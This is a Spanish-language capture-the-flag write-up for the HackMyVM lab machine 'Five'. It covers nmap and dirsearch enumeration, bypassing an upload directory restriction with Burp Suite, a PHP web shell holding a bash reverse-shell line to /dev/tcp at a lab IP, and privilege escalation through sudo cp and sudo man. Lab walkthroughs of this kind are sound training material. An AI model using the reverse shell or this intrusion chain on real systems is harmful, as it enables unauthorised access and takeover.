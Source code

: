 ```yaml
---
title: HackMyVm - Five + (AutoPwn)
published: true
---
```


---

> Laboratorio de la página [HackMyVm](https://hackmyvm.eu/)


### Enumeración

Inicio con un escaneo de **nmap** para ver puertos abiertos y enumerarlos.

![](https://eidd3.github.io/assets/img/Five/nmap.png)

* Puerto 80 - HTTP

![](https://eidd3.github.io/assets/img/Five/nmap2.png)

El archivo _robots.txt_ muestra que el directorio _/admin_ existe en la página.

Enumero un poco más con el script _http-enum_ de **nmap**.

![](https://eidd3.github.io/assets/img/Five/httpenum.png)

Y muestra algo parecido a lo anterior y un _index.html_ en el directorio _/admin/_.

Si ingreso a esa dirección veo un panel de autenticación.

![](https://eidd3.github.io/assets/img/Five/indexhtml.png)

Intento un inicio de sesión para ver la petición, y lo hace a **action_page.php**, por lo que ahora sé que la página usa **PHP**.

![](https://eidd3.github.io/assets/img/Five/requestheaders.png)

![](https://eidd3.github.io/assets/img/Five/wronguserpass.png)

Intenté convinaciones básicas admin:admin, root:root, etc., algunas inyecciones SQL pero nada. Sin algún nombre de usuario no iba a intentar fuerza bruta, por lo que seguí enumerando un poco más.

Con un escaneo de **dirsearch** veo algunas cosas más.

![](https://eidd3.github.io/assets/img/Five/dirsearch.png)

Un archivo **upload.html**, uno **upload.php** y un directorio **uploads** donde supongo que se suben los archivos.

![](https://eidd3.github.io/assets/img/Five/uploadhtml.png)

Primero, veo si funciona subiendo un **.txt**.

El mensaje al subir es: `The file test.txt has been uploaded.`

Y si ingreso al directorio **uploads** veo que sí me dejó.

![](https://eidd3.github.io/assets/img/Five/testtxt.png)

Sabiendo de antes que usa **PHP**, intento subir una web shell, pero al ingresar al archivo no lo interpreta; lo descarga.

En este punto intenté con distintas extensiones como **phar**, **php4**, **php5**, **phtml**, etc., pero ninguna funcionó.

Por lo que abrí **burpsuite** para ver cómo era la solicitud de subida del archivo.

![](https://eidd3.github.io/assets/img/Five/burpsuite.png)

Y se ve que en la solicitud se decide que el contenido se almacene en el directorio _uploads_, por lo que intento cambiar a donde se sube el archivo, borrando ese campo para subirlo a la raíz de la web.

![](https://eidd3.github.io/assets/img/Five/burpsuite2.png)

![](https://eidd3.github.io/assets/img/Five/test2.png)

Y funcionó. Ahora intento con un archivo **PHP** para obtener una shell en el sistema.

_shell.php_:

```php
<?php system(bash -c 'bash -i >& /dev/tcp/192.168.1.34/443 0>&1'); ?>
```

![](https://eidd3.github.io/assets/img/Five/wwdatash.gif)

---

#### **AutoPwn**

* [Scipit](https://github.com/eidd3/Autopwn-Scripts/blob/main/Autopwn%20Five) en python para obtener una shell como **www-data**.

![](https://eidd3.github.io/assets/img/Five/autopwn.gif)

---

### Elevando privilegios.

Viendo el sistema, veo el directorio de **melisa**, que parece que hay que elevar privilegios a ese usuario antes de **root**.

Si hago `sudo -l` para ver si tengo privilegios para hacer algo, veo que puedo ejecutar _/bin/cp_ como el usuario **melisa**.

![](https://eidd3.github.io/assets/img/Five/sudo-l.png)

Se me ocurre subir mi clave pública como authorized_keys al directorio .shh de **melisa**, pero me acuerdo que el puerto **22** no está abierto.

Viendo puerto internos de la máquina veo que el 4444 está operativo y es un servicio **SSH**. 

![](https://eidd3.github.io/assets/img/Five/internalport.png)

Así que ahora sí podría tratar de crear mi clave pública con _ssh-keygen_ para después usar el privilegio _/bin/cp_ para almacenarla en el directorio .ssh de **melisa**. Luego, usando chisel, hacer un port forwarding y conectarme como **melisa** sin proporcionar contraseña.

![](https://eidd3.github.io/assets/img/Five/chiselssh.gif)

### Root

Viendo los privilegios que puedo ejecutar como root, hay varios comandos que puedo usar.

![](https://eidd3.github.io/assets/img/Five/sudo-lroot.png)

Y el más interesante es **man**, que al poder ejecutarlo como root, se puede especificar el parámetro **-P** para que use _less_ como visor. Al usar less, se puede aprovechar para ejecutar ejecutar "subprocesos", algo que sin especificar el parámetro **PAGER** no se podría, ya que normamente **man** usa _more_ o un visor más simple.

![](https://eidd3.github.io/assets/img/Five/root.gif)

